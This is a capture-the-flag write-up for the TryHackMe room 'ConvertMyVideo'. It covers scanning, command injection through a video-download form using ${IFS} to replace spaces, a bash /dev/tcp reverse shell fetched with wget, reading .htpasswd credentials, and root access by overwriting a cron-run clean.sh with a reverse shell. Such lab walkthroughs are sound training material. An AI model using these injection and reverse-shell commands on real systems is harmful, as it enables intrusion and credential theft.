 # TryHackMe - ConvertMyVideo - Linux

- [Room](https://tryhackme.com/room/convertmyvideo)

## Nmap

```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-07-05 21:48 BST
Stats: 0:20:37 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 22:09 (0:00:00 remaining)
Nmap scan report for ip-10-10-68-80.eu-west-1.compute.internal (10.10.68.80)
Host is up (0.00047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:61:5C:CF:D0:3B (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=7/5%OT=22%CT=1%CU=34666%PV=Y%DS=1%DC=D%G=Y%M=02615C%TM
OS:=62C4A916%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)
OS:SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M230
OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
OS:IN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F
OS:507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1381.76 seconds
```

## Port 80

- We have a page with a file upload functionality to convert a video  
![image](https://user-images.githubusercontent.com/96747355/177418155-b8a3bc88-c5ac-4aaf-b492-462d01e2611a.png)  

### Gobuster

```
┌──(root💀kali)-[/home/kali/Documents]
└─# gobuster dir -u http://10.10.158.186/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt                                                                                                            1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.158.186/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/06 17:18:46 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.10.158.186/images/]
/admin                (Status: 401) [Size: 460]                                   
/js                   (Status: 301) [Size: 311] [--> http://10.10.158.186/js/]    
/tmp                  (Status: 301) [Size: 312] [--> http://10.10.158.186/tmp/]
```

### Apache version

- Apache httpd 2.4.29 - CVE-2021-41773
- https://github.com/iilegacyyii/PoC-CVE-2021-41773
- Not going anywhere with this

### The dl functionality

- If we use a real youtube video ID it does not work. We get an error message  
![image](https://user-images.githubusercontent.com/96747355/179367362-35353a69-8c96-4bae-a26c-e7b655113ac0.png)  
- First I inspected on burp the request. Sent it to my repeater and played with it a little
- I tried to inject a command after the url, and got interesting info  
![image](https://user-images.githubusercontent.com/96747355/179367603-133a65f4-6f39-4b40-bec0-c4e2f9aa2d48.png)
- Here are the interesting elements of the response
```
Unable to download webpage: HTTP Error 401: Unauthorized (caused by HTTPError()); please report this issue on https:\/\/yt-dl.org\/bug . Make sure you are using the latest version; type  youtube-dl -U  to update. Be sure to call youtube-dl with the --verbose flag and include its complete output
"result_url":"\/tmp\/downloads\/62d2fd72c199c.mp3
```
- According to this it is using a binary called `youtube-dl` and put the converted video to a downloads folder in /tmp
- We can check [youtube-dl documentation](https://github.com/ytdl-org/youtube-dl/blob/master/README.md#readme) for more info
- We definitely can push further our cmd injection investigation. We can try using backquotes, and it works  
![image](https://user-images.githubusercontent.com/96747355/179368334-757d68ed-afe0-4f76-9038-662702fcce18.png)
- If I want to do more than just a command without args it is getting tricky because of the space, and url encoding does not work. But if you google linux command without space you find [this post on stackoverflow](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces), turns out you can replace a space with `${IFS}` which is a var that contains a space! It works if we do `ls${IFS}admin` but not if we do `ls${IFS}-al` it seems to interpret our `-`  
![image](https://user-images.githubusercontent.com/96747355/179368991-1cad2673-557d-42fb-b2c7-52b66744a85d.png)  
- We can still get our user flag this way though, as we saw it listed with the previous command that worked `cat${IFS}admin/flag.txt`
- Let's try to get a reverse shell all the one liners with reverse have dash sign in them. let's see if we can wget a homemade file with a oneliner shell in it and execute it afterwards.
- We make a file called `oneliner.sh` and put this in it  
```
bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1
```
- Replace the script with your IP
- And we laucnh our python http server in the folder where our shell is
- So now let's try to first wget our file `wget${IFS}http://10.13.22.56/oneliner.sh` we can already set up our listener so that we do not forget about it `rlwrap nc -lvp 4444` our wget seems to work  
![image](https://user-images.githubusercontent.com/96747355/179369747-fc5aa394-5be0-403e-9def-fca82f1061b1.png)  
![image](https://user-images.githubusercontent.com/96747355/179370010-f6101492-35a8-4478-9b30-a47dc76c6654.png)  
- Let's try to execute it but before we need to make it executable `bash${IFS}oneliner.sh` our chmod with +x does not work let's try with 777 `chmod${IFS}777${IFS}oneliner.sh` and it works  
![image](https://user-images.githubusercontent.com/96747355/179371010-6276b6b1-3906-4cb8-8e60-a59d0855c8a5.png)  
- let's stabilize our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- If we look around a little we are able to answer question 2 with a cat on .htpasswd
![image](https://user-images.githubusercontent.com/96747355/179373337-e007fd4e-12fe-46ea-af82-b462e5d01992.png)  
- Let's try to overwrite clean.sh

## Privesc

- If we execute linpeas on the target we see that cron is running as root.
- Let's get [pspy](https://github.com/DominicBreuker/pspy) in our target and execute it
- It seems like there is a clean.sh file that is executed through a probable cron job  
![image](https://user-images.githubusercontent.com/96747355/179373393-d1a39c41-3c0f-4abc-b642-1b0842fb04d8.png)
```
bash /var/www/html/tmp/clean.sh 
/bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
/usr/sbin/CRON -f
```
- The clean is just an `rm -rf downloads`
- Let's launch a listener `rlwrap nc -lvp 5555`
- `echo "bash -i >& /dev/tcp/10.13.22.56/5555 0>&1" > /var/www/html/tmp/clean.sh`
- And we get a root shell and we can get our flag  
![image](https://user-images.githubusercontent.com/96747355/179373526-68409f61-a3a5-4f1c-a1f9-61f8bc72cb1f.png)  

## Questions

- What is the name of the secret folder? `admin` (we get this using gobuster, see above)
- What is the user to access the secret folder? to know this we need to do this one we have our reverse shell `cat admin/.htpasswd` we will get the user and password inside this file.
- I let you find the flags on your own :)
